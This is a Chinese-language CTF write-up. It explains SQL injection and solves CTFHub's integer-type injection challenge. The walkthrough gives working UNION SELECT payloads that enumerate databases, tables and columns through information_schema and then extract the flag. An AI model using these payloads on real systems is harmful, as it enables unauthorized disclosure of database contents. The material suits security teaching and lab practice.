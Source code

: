 # Web

## Web前置技能

### SQL注入

Web应用开发过程中，为了内容的快速更新，很多开发者使用数据库进行数据存储。而由于开发者在程序编写过程中，传入用户数据的过滤不严格，将可能存在的攻击载荷拼接到SQL查询语句中，再将这些查询语句传递给后端的数据库执行，从而引发实际执行的语句与预期功能不一致的情况。这种攻击被称为**SQL注入攻击**。
大多数应用在开发时将诸如密码等的数据放在数据库中，由于SQL注入攻击能够泄露系统中的敏感信息，使之成为了进入各Web系统的入口级漏洞，因此各大CTF赛事将SQL注入作为Web题目的出题点之一，SQL注入漏洞也是现实场景下最常见的漏洞类型之一。
**SQL注入是开发者对用户输入的参数过滤不严格，导致用户输入的数据能够影响预设查询功能的一种技术，通常将导致数据库的原有信息泄露、篡改，甚至被删除。**

#### 整数型SQL注入

输入1试试？输入1后有俩行回显：一行`ID`一行`Data`。

![](https://paper.tanyaodan.com/CTFHub/Web/SQL注入/整数型注入/1.png)

`union select`可以进行联合查询，`id=-1`表示一个不存在的`id`，`group_concat()`把产生的同一分组中的值用`,`连接形成一个字符串，`information_schema.schemata`表示`information_schema`库中的一个表名为`schemata`的表，可以在输入框输入以下代码查询所有数据库：

```sql
-1 union select 1,group_concat(schema_name) from information_schema.schemata
```

![](https://paper.tanyaodan.com/CTFHub/Web/SQL注入/整数型注入/2.png)

`database()`回显当前连接的数据库，用以下代码可以查询到当前数据库为`sqli`：

```sql
-1 union select 1,database()
```

![](https://paper.tanyaodan.com/CTFHub/Web/SQL注入/整数型注入/3.png)

`group_concat()`把产生的同一分组中的值用`,`连接并形成一个字符串，`information_schema.tables`存了`mysql`所有的表，`table_schema`是表对应的数据库名的字段，`table_name`和`table_schema`相对应，用以下代码能够查询到指定数据库的表信息：

```sql
-1 union select 1,group_concat(table_name) from information_schema.tables where table_schema="sqli"
```

![](https://paper.tanyaodan.com/CTFHub/Web/SQL注入/整数型注入/4.png)

`information_schema.columns`存了表中所有列的信息，`table_name`和`table_schema`相对应，可以看到有个表叫`flag`，我们可以去查询该表的列信息：

```sql
-1 union select 1,group_concat(column_name) from information_schema.columns where table_name="flag"
```

![](https://paper.tanyaodan.com/CTFHub/Web/SQL注入/整数型注入/5.png)

最后输入以下代码根据`flag`字段可以查询到该字段的数据：

```sql
-1 union select 1,group_concat(flag) from sqli.flag
```
